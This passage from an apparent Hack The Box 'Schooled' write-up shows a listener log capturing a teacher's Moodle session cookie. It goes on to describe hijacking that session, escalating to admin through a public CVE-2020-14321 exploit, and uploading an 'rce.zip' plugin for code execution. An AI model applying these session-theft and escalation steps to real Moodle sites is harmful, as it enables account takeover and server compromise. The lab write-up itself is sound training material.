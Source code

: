 After few seconds we clicked on ```Enroll me``` we get the teacher cookie:
```console
┌─[evyatar@parrot]─[/hackthebox/Schooled]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.234 - - [09/Apr/2021 02:42:51] code 404, message File not found
10.10.14.14 - - [09/Apr/2021 02:39:18] "GET /MoodleSession=34dpp503jcoics05uu27tdoi9p HTTP/1.1" 404 -
10.10.10.234 - - [09/Apr/2021 02:42:51] code 404, message File not found
10.10.10.234 - - [09/Apr/2021 02:42:51] "GET /MoodleSession=ngpo7csaks4c8t9ughtqcq9p2q HTTP/1.1" 404 -
```

Changing on browser to teacher cookie ```MoodleSession=ngpo7csaks4c8t9ughtqcq9p2q```:

![cookie.JPG](images/cookie.JPG)

Refresh the page and we can see that we are logged in as ```Manuel Phillips``` which is the teacher.

By using the following [CVE-2020-14321 Implementation](https://github.com/HoangKien1020/CVE-2020-14321) we can be logged in as ```admin```, After we logged in as ```admin``` we can install the [rce.zip](rce.zip) plugin to get RCE.

NOTE: 

1. To use the CVE above we need to choose account which is manager:

![teachers.JPG](images/teachers.JPG)
